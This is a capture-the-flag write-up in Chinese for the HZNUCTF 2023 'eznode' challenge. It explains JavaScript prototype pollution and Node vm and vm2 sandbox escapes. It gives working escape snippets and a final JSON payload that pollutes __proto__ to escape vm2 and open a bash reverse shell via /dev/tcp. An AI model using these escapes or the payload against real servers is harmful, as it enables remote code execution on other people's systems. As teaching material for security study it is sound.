

# [HZNUCTF 2023 final]eznode

## 知识点

>   js 原型链污染

>   vm2 沙箱逃逸


## 原型链污染

### **原型是什么？**

-   在正常开发使用js的时候创建一个函数如下

```nginx
function Foo() {
    this.bar = 1
    this.show = function() {
        console.log(this.bar)
    }
}

(new Foo()).show()
# Foo函数的内容，就是Foo类的构造函数，而this.bar就是Foo类的一个属性。
# 而一个类中也必然有一些属性，这些属性中也可以创建构造函数之中
```

-   **只不过这样写的问题就是：没创建一个`Foo`对象，其中的`this.show = function(){...}`就会执行一次**
-   **这就说明这个`show`方法是绑定在对象上的，并不是绑定在类上的**
-   **那么要解决这个问题就需要使用到`propotype`了**，使用方式也很简单

```js
function Foo() {
    this.bar = 1
}

Foo.prototype.show = function show() {
    console.log(this.bar)
}

let foo = new Foo()
foo.show()
```

>   **使用`prototype`后，所有用`Foo`类实例化的对象都将拥有`prototype`属性中所定义的内容**

>   **一个Foo类实例化出来的foo对象，可以通过`foo.__proto__`属性来访问`Foo`类的原型**
>
>   `foo.__proto__ == Foo.prototype`

**所以，总结一下：**

1.  ==`prototype`是一个类的属性，所有类对象在实例化的时候将会拥有`prototype`中的属性和方法==
2.  ==一个对象的`__proto__`属性，指向这个对象所在的类的`prototype`属性==

### 为什么会有原型链污染

**这就涉及到JavaScript的原型链继承**

**所有类对象在实例化的时候将会拥有`prototype`中的属性和方法，这个特性被用来实现JavaScript中的继承机制**

```js
function Father() {
    this.first_name = 'Donald'
    this.last_name = 'Trump'
}

function Son() {
    this.first_name = 'Melania'
}

Son.prototype = new Father()

let son = new Son()
console.log(`Name: ${son.first_name} ${son.last_name}`)
```

>   `Son`类继承了`Father`类的`last_name`属性，最后输出的是`Name: Melania Trump`。

**总结，对于对象son，在调用`son.last_name`的时候，实际上JavaScript引擎会进行如下操作**：

1.  ==在对象son中寻找last_name==
2.  ==如果找不到，则在`son.__proto__`中寻找last_name==
3.  ==如果仍然找不到，则继续在`son.__proto__.__proto__`中寻找last_name==
4.  ==依次寻找，直到找到`null`结束。比如，`Object.prototype`的`__proto__`就是`null`==

>   JavaScript的这个查找的机制，被运用在面向对象的继承中，**被称作prototype继承链**。


结论：

1.  每个构造函数(constructor)都有一个原型对象(prototype)
2.  对象的`__proto__`属性，指向类的原型对象`prototype`
3.  JavaScript使用prototype链实现继承机制


### 原型链污染案例

```js
// foo是一个简单的JavaScript对象
let foo = {bar: 1}

// foo.bar 此时为1
console.log(foo.bar)

// 修改foo的原型（即Object）
foo.__proto__.bar = 2

// 由于查找顺序的原因，foo.bar仍然是1
console.log(foo.bar)

// 此时再用Object创建一个空的zoo对象
let zoo = {}

// 查看zoo.bar == 2
console.log(zoo.bar)
```

-   因为前面我们修改了foo的原型`foo.__proto__.bar = 2`，而foo是一个Object类的实例，
    -   所以实际上是修改了Object这个类，给这个类增加了一个属性bar，值为2。

-   后来，我们又用Object类创建了一个zoo对象`let zoo = {}`，zoo对象自然也有一个bar属性了。

-   那么，在一个应用中，如果攻击者控制并修改了一个对象的原型，
-   那么将可以影响所有和这个对象来自同一个类、父祖类的对象。这种攻击方式就是**原型链污染**


### 常规原型链会被污染的情况

**结论：能够控制数组（对象）的“键名”的操作容易参数原型链污染**

-   常见的两个函数为：merge()、chone()‘

-   **例如：**

-   ```js
    function merge(target, source) {
        for (let key in source) {
            if (key in source && key in target) {
                merge(target[key], source[key])
            } else {
                target[key] = source[key]
            }
        }
    }
    
    // 在合并的过程中，可能存在原型链勿扰的操作：target[key] = source[key]
    
    代码实验：
    let o1 = {}
    let o2 = {a: 1, "__proto__": {b: 2}}
    merge(o1, o2)
    console.log(o1.a, o1.b)
    
    o3 = {}
    console.log(o3.b)
    // 结果是，合并虽然成功了，但原型链没有被污染：
    /**
    	这是因为，我们用JavaScript创建o2的过程（let o2 = {a: 1, "__proto__": {b: 2}}）中，	__proto__已经代表o2的原型了，
    	此时遍历o2的所有键名，你拿到的是[a, b]，__proto__并不是一个key，
    	自然也不会修改Object的原型。
    */
    
    // 那么让__proto__被认为是一个键名需要修改成如下
    let o1 = {}
    let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
    merge(o1, o2)
    console.log(o1.a, o1.b)
    
    o3 = {}
    console.log(o3.b)
    
    // 	这是因为，JSON解析的情况下，__proto__会被认为是一个真正的“键名”，
    //	而不代表“原型”，所以在遍历o2的时候会存在这个键。
    ```

    

##关于vm

>   防止变量的污染，VM的特点就是不受环境的影响，也可以说他就是一个沙箱环境 （沙箱模式给模块提供一个环境运行而不影响其它模块和它们私有的沙箱

### 使用方法

```js
const vm = require('vm');

sx = {
    'name': 'chiling',
    'age': 18
}

// 创建一个沙箱对象
context = vm.createContext(sx)

// vm.runInThisContext(code)：在当前global下创建一个作用域（sandbox），并将接收到的参数当作代码运行。可以访问到global上的全局变量，但是访问不到自定义的变量
const result = vm.runInThisContext(`process.mainModule.require('child_process').exec('calc')`, context);
console.log(result)
```

>   一般正常执行命令的话是通过`child_process模块`，但是在沙箱环境中不能直接通过`require`引入`child_process`，但是`require`可以通过`process`对象中获取，那么一般获取的方法如下

```js
const vm = require('vm');
const y1 = vm.runInNewContext(`this.toString.constructor("return process")();`);
console.log(y1.mainModule.require('child_process').exec('calc'));

```

**如果在runInNewContext想要通过逃逸的话可以通过**`this.constructor.constructor("return process")()`，如上

>   具体的原因就是在`this`这个位置上，`this`指向`context`（上面的代码中就是默认`vm`创建的`context`）
>
>   并通过原型链的方式拿到`Funtion`

>   但是上面的`this`实际上是`context`的引用，那么其实也说明了只要是外部的引用的特性都是可以进行获取来进行逃逸的，那么如下代码也是行得通

```js
const vm = require('vm');
context = vm.createContext({aaaaa:[]})
const result = vm.runInNewContext(`aaaaa.constructor.constructor("return process")()`, context);
result.mainModule.require('child_process').exec('calc')
// console.log(result)

```


**再看另一种情况，当通过相关的操作将上下文的对象的原型链设置为`null`，来避免部分攻击，那么通过`this.constructor`就无法完成沙盒逃逸**

```js
const vm = require('vm');
context = Object.create(null);
const result = vm.runInNewContext(`this.constructor.constructor("return process")()`, context);
result.mainModule.require('child_process').exec('calc')
console.log(result)

// 结果会报错
// 为什么呢？
// 因为设置为原型对象为null，所以this无法通过二次constructor去获取到Function原型对象
```

>   因为`this`是`context`的引用，虽然已经获取不到其他的东西了，但是还是可以通过`arguments.callee.caller`来进行绕过

>   这里的`arguments.callee.caller`是什么东西?
>
>   先来讲下关于`arguments`，这个的话是一个`Object`对象，但是也不是数组，可以通过以下代码定义一个函数在调用查看`arguments`的内容，**它存储了每个调用函数中的相关参数**

```js
function test(){console.log(arguments)}
test()
// 结果太长了就不放了
```

>   `arguments.callee`是`arguments`对象的一个成员，它的值为"正被执行的`Function`对象"

```js
function test(){console.log(arguments.callee)}
test()
// 结果为
ƒ test(){console.log(arguments.callee)}
```

>   `arguments.callee.caller`调用当前函数的外层函数，如果是单函数无嵌套的话就是`null`

```js
function test1(){return arguments.callee.caller}
console.log(test1())	// 结果为null
function test2(){
    function test3(){
        return arguments.callee.caller
    }
    return test3()
}
console.log(test2())

// 结果为：
ƒ test2(){
    function test3(){
        return arguments.callee.caller
    }
    return test3()
}
```

>   **然后再看看它的绕过代码**
>
>   **下面的代码，console.log的时候，此时的对象触发是在外部作用域中，**
>
>   **arguments.callee.caller是在外部，所以可以通过该对象来获取对应的process**

```nginx
# arguments.callee.caller绕过
const vm = require('vm');

# 通过vm.runInContext创建了一个test()函数并对其调用，并设置context为null
const res = vm.runInContext(`
    function test(){
        const a = {}
        a.toString = function () {
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('calc').toString()
        }
        return a
    }
	test();`,
vm.createContext(Object.create(null)));
console.log(""+res)

```

>   **还可以通过`vm`沙箱`Proxy`代理绕过`Object.create(null)`**

>   下面的代码中，`value`是`{}`对象传入的，而`{}`对象是外部作用域下，经过原型链可以获取`proces`对象来进行利用

```nginx
const vm = require('vm');
const code3 = `new Proxy({}, {
    set: function(me, key, value) {
        (value.constructor.constructor('return process'))().mainModule.require('child_process').execSync('calc').toString()
    }
})`;

data = vm.runInContext(code3, vm.createContext(Object.create(null)));
data['some_key'] = {};

```


## 关于vm2模块

>   **vm2基于vm开发**，使用官方的vm库构建沙箱环境。然后使用JavaScript的Proxy技术来防止沙箱脚本逃逸

`vm2`**的代码包中主要有四个文件**

-   `cli.js`： 
    -   实现`vm2`的命令行调用
-   `contextify.js` 
    -   封装了三个对象， `Contextify `和 `Decontextify `，并且针对 `global `的`Buffer`类进行了代理
-   `main.js`
    -    `vm2`执行的入口，导出了 `NodeVM`, `VM `这两个沙箱环境，还有一个 `VMScript `实际上是封装了` vm.Script`
-   `sadbox.js`
    -   针对 `global` 的一些函数和变量进行了`hook`，比如 `setTimeout`，`setInterval `等

>   vm2相比vm做了很大的改进，其中之一就是利用了es6新增的 proxy 特性，
>
>   从而拦截对诸如 **constructor** 和 **proto** 这些属性的访问

##### vm2运行过程

```js
const {VM, VMScript} = require("vm2");
console.log(new VM().run(new VMScript("let a = 2;a")));
```




##### vm2沙箱逃逸原理

>   看一个案例

```js
"use strict";

var process;
 
// 这串代码定义了一个名为has 的全局函数，这个函数是在 Object 的原型上定义的
//		它的两个参数，t 和 k 分别表示：目标对象和要检查的键。
Object.prototype.has = function (t, k) {
    // 在 has 函数内部，使用 t.constructor("return process")() 的方式来获取全局对象process，
	// constructor 方法是 t 的构造函数，此时 t 是 Buffer.from，
	// 所以获取到的 constructor 函数即为 Buffer 构造函数，
	// 由于在 Node.js 中，Buffer 构造函数是原生模块，
	// 因此使用 constructor 方法执行 "return process" 字符串就能获取到全局 process 对象了。
    process = t.constructor("return process")();
};

// 接下来，这里检查一个空字符串 "" 是否存在于 Buffer.from 对象中，
// 这是因为 Buffer.from 对象是一个代理对象，代理了 Buffer 构造函数，所以这一步操作并没有实际意义
// 只是为了做一个触发点，让其去寻找属性为【""】的属性，但是这个属性肯定是没有的，然后它就会找上原型中定义的has方法
// 这个has方法也是有点特殊，可以说是每个对象都可能存，然后在原型中找了has方法，然后执行它
"" in Buffer.from;

// 然后因为执行了has方法，并且通过buffer是原生模块拿到外部的process模块，所以可以执行命令
process.mainModule.require("child_process").execSync("whoami").toString()
```

>    **以上就是通过原型链突破了沙箱环境从而拿到了外部的模块，从而执行命令的案例**
>
>   **这个的修复方案也就是在buffer.from中添加has方法，因为本身已经有了所以就不会去原型上找**

##### **vm2案例**

**js的三个属性**

>   **数据属性和访问器属性都存在 `[[Enumerable]]` 和 `[[Configurable]]` 特性**
>
>   -   `Enumerable `特性用于控制属性是否可以被 for...in 循环遍历，
>       -   以及是否可以通过 Object.keys()、Object.values()、Object.entries() 等方法获取到
>   -   `Configurable `特性用于控制属性是否可以被删除或修改。

-   **数据属性**

    -   数据属性包含一个可以读取和写入属性值的变量，并且`Writable`控制这个值是否可改变，**默认可改变**

-   **访问器属性**

    -   访问器属性不包含数据值，而是包含一对 getter 和 setter 函数，默认为`undefined`

    -   设置对象的访问器属性，也就个get、set属性

        -   ```js
            --------------正常用法---------------------
            var num= {
                a: 2,
                get b(){
                    return 2;
                }   
            };
            console.log(num.a);//2
            console.log(num.b);//2
            
            --------------定义在原型链上---------------------
            
            let obj0 = {};
            Object.defineProperty(obj0, "prop", {
                get(){
                    return "get";
                }
            })
            // 结果就是调用get方法，并输出get字符串
            console.log(obj0.prop);
            
            
            --------------------- 另一个用法 --------------------
            
            let obj1 = {};
            
            // 此时会先执行一次get()函数打印出 get1，同时设置prop属性的值为 ()=>{return "get2"};
            // 等于说这个prop属性中设置了一个get函数，而get函数体内部还是一个get函数
            Object.defineProperty(obj1, "prop", {
                get get(){
                    console.log("get1"); 
                    return ()=>{return "get2"};
                }
            })
            // 之后调用obj1.prop都只会输出get2，也就是()=>{return "get2"};的执行结果
            console.log(obj1.prop); 
            
            --------------------- 同理另一个用法 --------------------
            let obj = {};
            
            // 此时会先执行一次set()函数打印出 set1，同时设置prop属性的值为 (val)=>{console.log("set2")} 
            Object.defineProperty(obj, "prop", {
                get set(){
                    console.log("set1");
                    return (val)=>{console.log("set2")};
                }
            })
            
            // 之后给prop赋值就会打印 set2;也就是(val)=>{console.log("set2")} 的执行结果
            obj.prop = 1
            
            ```

            

-   **内部属性**

    -   内部属性是 JavaScript 引擎内部使用的属性，不能直接访问它们，
    -   例如：`Prototype`，想要访问`Prototype`得使用`__proto__`


>   那么回过头来看vm2逃逸的代码

```js
"use strict";
const {VM} = require('vm2');

// Object.defineProperty() 是用于在对象上定义一个新属性，或修改已有的属性。
// 语法：Object.defineProperty(obj, prop, descriptor)
// 其中，obj 是需要定义属性的对象，
//		prop 是需要定义或修改的属性名，
//		descriptor 是一个 JavaScript 对象
const untrusted = `var process;
try{
    Object.defineProperty(Buffer.from(""), "", {get set(){
        Object.defineProperty(Object.prototype,"get",{get(){
            throw x=>x.constructor("return process")();
        }});
        return ()=>{};
    }});
}catch(e){
    process = e(()=>{});
}
process.mainModule.require("child_process").execSync("id").toString();`;
try{
    console.log(new VM().run(untrusted));
}catch(x){
    console.log(x);
}

/**
	具体来说，代码通过Object.defineProperty方法来给Buffer.from("")设置一个名为 ""（空字符串）的属性，
	这个属性的getter和setter分别被设置为匿名函数。
	这个getter函数在被调用时，会将Object.prototype的get方法改写成一个抛出异常的函数，
		这样任何尝试访问get方法的操作都会抛出异常。
	在这个getter函数中，还将返回一个匿名函数，即属性的setter函数，这个setter函数不做任何事情，只是返回一个空函数。
	这样，尝试通过Buffer.from("")获取到的属性""会被篡改，进而导致Object.prototype.get方法的改写和调用。

	接下来，代码通过catch块来捕获可能抛出的异常。
	在异常处理中，代码通过e(() => {})的形式来调用被篡改的Object.prototype.get方法，尝试获取到process对象。
	在这个过程中，篡改的Object.prototype.get方法会被调用，抛出一个返回process的函数，从而获取到process对象。
```


## 解题

首先访问`/app.js`获取到源码

```js

const express = require('express');
const app = express();
const { VM } = require('vm2');	// 引入了vm2

app.use(express.json());

const backdoor = function () {
    try {
        // 这里是执行命令的地址，利用原型链污染到这里，从而执行命令
        new VM().run({}.shellcode);
    } catch (e) {
        console.log(e);
    }
}

const isObject = obj => obj && obj.constructor && obj.constructor === Object;
// 存在原型链污染的地方，
const merge = (a, b) => {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}

// clone 调用了merge
const clone = (a) => {
    return merge({}, a);
}


app.get('/', function (req, res) {
    res.send("POST some json shit to /.  no source code and try to find source code");
});

app.post('/', function (req, res) {
    try {
        console.log(req.body)
        // 需要传入一个json对象，并且参数是可控的
        var body = JSON.parse(JSON.stringify(req.body));
        var copybody = clone(body)
        // 这里调用了shit属性，需要传入这个参数，然后还需要去污染shellcode
        if (copybody.shit) {
            backdoor()
        }
        res.send("post shit ok")
    }catch(e){
        res.send("is it shit ?")
        console.log(e)
    }
})

app.listen(3000, function () {
    console.log('start listening on port 3000');
});
```

**vm2 原型链污染导致沙箱逃逸 poc：**

```js
let res = import('./app.js')
res.toString.constructor("return this")().process.mainModule.require("child_process").execSync("whoami").toString();

```

**将poc转换成json格式playload**

```java
{"shit":1,"__proto__":{"shellcode":"let res = import('./app.js'); res.toString.constructor(\"return this\") ().process.mainModule.require(\"child_process\").execSync('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"').toString();"}} 

```


参考：

https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html

https://www.cnblogs.com/zpchcbd/p/16899212.html

https://www.anquanke.com/post/id/207291

https://xilitter.github.io/2023/01/31/vm%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%88%9D%E6%8E%A2/index.html

https://github.com/patriksimek/vm2/issues/225